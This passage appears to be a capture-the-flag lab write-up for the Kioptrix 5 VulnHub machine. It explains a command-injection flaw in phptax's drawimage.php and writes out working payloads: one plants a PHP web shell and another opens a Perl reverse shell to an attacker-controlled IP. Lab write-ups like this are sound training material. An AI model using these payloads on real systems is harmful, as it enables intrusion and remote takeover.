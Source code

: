 ### Understanding `phptax` RCE

From exploit-db [phptax RCE](https://www.exploit-db.com/exploits/21665)

```bash
include ("./files/$_GET[pfilez]");

// makes a png image
$pfilef=str_replace(".tob",".png",$_GET[pfilez]);
$pfilep=str_replace(".tob",".pdf",$_GET[pfilez]);
Header("Content-type: image/png");
if ($_GET[pdf] == "") Imagepng($image);
if ($_GET[pdf] == "make") Imagepng($image,"./data/pdf/$pfilef");
if ($_GET[pdf] == "make") exec("convert ./data/pdf/$pfilef ./data/pdf/$pfilep");
```

There is no input validation. If we set the value of `pdf` keyword as `make` we can execute any arbitrary command by appending a `;` before the command.

The first thing I did was to create a simple php web shell using the following.


```php
kioptrix5.com:8080/phptax/drawimage.php?pfilez=xxx;echo '<?php passthru($_GET[cmd]);?>' > testshell.php&pdf=make
```

URL Encoded
```php
kioptrix5.com:8080/phptax/drawimage.php?pfilez=xxx;echo%20%27%3C%3Fphp%20passthru(%24_GET[cmd])%3B%3F%3E%27%20%3E%20testshell.php&pdf=make
```

Now we have a web shell that can execute commands using the `cmd` parameter.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix5/webshell.png){: .align-center}
    
After running some commands I found that the system has `nc` and `perl`. But for some reason the `nc` cannot use the `-e` flag that can give us a reverse shell. So lets get a code using `perl`

### A Shell Drop Issue

I was facing an issue while I was using `perl` or `telnet` commands to execute a reverse shell. The system establishes a connection and immediately drops it. It was driving me crazy. Then I remembered a technique that was used when executing shell code to prevent the shell from dropping. It was done by appending a `cat -` at the end of the shellcode. When I tried the same thing here it worked. I don't remember why it worked that way. But we have to append `cat -` at the end of the reverse shell code or the system immediately drops the connection.

### Perl Reverse Shell

```perl
kioptrix5.com:8080/phptax/drawimage.php?pfilez=xxx;perl -MIO -e '$p=fork;exit,if($p);  
foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}  
$c=new IO::Socket::INET(PeerAddr,"192.168.63.3:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);  
while(<>){if($_=~ /(.*)/){system $1;}};' | cat -&pdf=make
```
You might have to url encode it.

